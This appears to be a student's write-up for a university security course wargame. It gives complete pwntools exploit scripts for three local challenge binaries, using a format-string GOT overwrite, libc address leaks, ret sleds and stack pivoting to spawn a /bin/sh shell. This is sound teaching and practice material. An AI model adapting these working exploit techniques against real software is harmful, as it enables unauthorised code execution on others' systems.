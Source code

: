 # COMP6447 Wargame 8
Written by WENG XINN CHOW (z5346077) on 11.08.2022

crypto3
===========================
General overview of problems faced
-------------------------------------
1. Had to use format strings to exploit. Using format strings can find the offset to user input, which is 12. 
2. Had to overwrite GOT printf function with system address and ```/bin/sh``` address. 
3. Tried using format strings to leak libc address but couldn't seem to work.

Script/Command used
------------------
```
from pwn import *

p = process("./crypto3")
libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)

# Got printf
printf = 0x56559010
system = 0xf7dc0150
libc.address = system - libc.symbols['system']
log.info(f"libc base: {hex(libc.address)}")
binsh = next(libc.search(b'/bin/sh')) # 0xf7f350f5
log.info(f"/bin/sh: {hex(binsh)}")

payload = p32(printf)
payload += p32(printf + 1)
payload += p32(printf + 2)
payload += p32(printf + 3)

# Offset to user input = 12
bytes_write_f5 = 0xf5 - len(payload)
payload += f"%{bytes_write_f5}x%12$n".encode()

bytes_write_50 = 0x150 - 0xf5
payload += f"%{bytes_write_50}x%13$n".encode()

bytes_write_f3 = 0x1f3 - 0x150
payload += f"%{bytes_write_f3}x%14$n".encode()

bytes_write_f7 = 0x1f7 - 0x1f3
payload += f"%{bytes_write_f7}x%15$n".encode()

p.sendline(b'C')
p.sendline(payload)

p.interactive()
```
bsl
===========================
General overview of problems faced
-------------------------------------
1. Had to use the libc leaked to find the system and ```/bin/sh``` addresses.
2. Tried to send the first payload which contains a return sled, system and ```/bin/sh``` addresses.
3. Then, sent the second payload to overwrite the ESP so it would point back to the return sled. 
   
Script/Command used
------------------
```
from pwn import *

p = process("./bsl")
libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)

p.recvlines(3)
p.sendline(b'y')

p.recvlines(2)
p.recvuntil(b': ')
puts_leaked = int(p.recvuntil('\n')[:-1], 16)
log.info(f"puts leaked: {hex(puts_leaked)}")

libc.address = puts_leaked - libc.symbols["puts"]
system = libc.symbols["system"]
binsh = next(libc.search(b"/bin/sh"))
log.info(f"libc base: {hex(libc.address)}")
log.info(f"system: {hex(system)}")
log.info(f"/bin/sh: {hex(binsh)}")

p.recvline()
p.sendline(b'y')

p.recvline()
p.sendline(b'0')

p.recvlines(2)
ret = 0x000004a6
payload = p32(ret) * 100
payload += p32(system)
payload += b'A' * 4
payload += p32(binsh)
p.sendline(payload)

p.recvline()
p.sendline(b'y')

p.recvlines(2)
p.sendline(b'2')

p.recvline()
payload = b'A' * 204
p.sendline(payload)

p.interactive()
```
piv_it
===========================
General overview of problems faced
-------------------------------------
1. Had to leak libc address and use that leaked address to find the system and ```/bin/sh``` addresses. 
2. Had to find the ret gadget using ```ROPgadget```. 
3. For the first payload, I sent a return sled, the system and ```/bin/sh``` addresses that were previously obtained. 
4. Then, in the second payload, I sent enough A's to overwrite ESP so that it would point back to the address of our first payload on the stack.
Script/Command used
------------------
```
from pwn import *

p = process("./piv_it")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

p.recvlines(12)
p.recvuntil(b': ')
# printf leaked
printf_leaked = int(p.recvuntil(b'\n')[:-1], 16)
log.info(f"printf_leaked: {hex(printf_leaked)}")

libc.address = printf_leaked - libc.symbols["printf"]
log.info(f"libc base: {hex(libc.address)}")
system = libc.symbols["system"]
binsh = next(libc.search(b"/bin/sh"))
log.info(f"system: {hex(system)}")
log.info(f"/bin/sh: {hex(binsh)}")

# ret gadget
ret = 0x00000462
offset = 160
first_offset = 128

retsled_len = (first_offset - 12) / 4 - 1 
retsled = p32(ret) * int(retsled_len)

p.recvlines(3) 
payload = retsled
payload += p32(system)
payload += b'A' * 4
payload += p32(binsh)
# Enough A to overwrite
payload += b'A' * 3
p.sendline(payload)

p.recvlines(5)
p.sendline(b'A' * (offset - first_offset))

p.interactive()
```
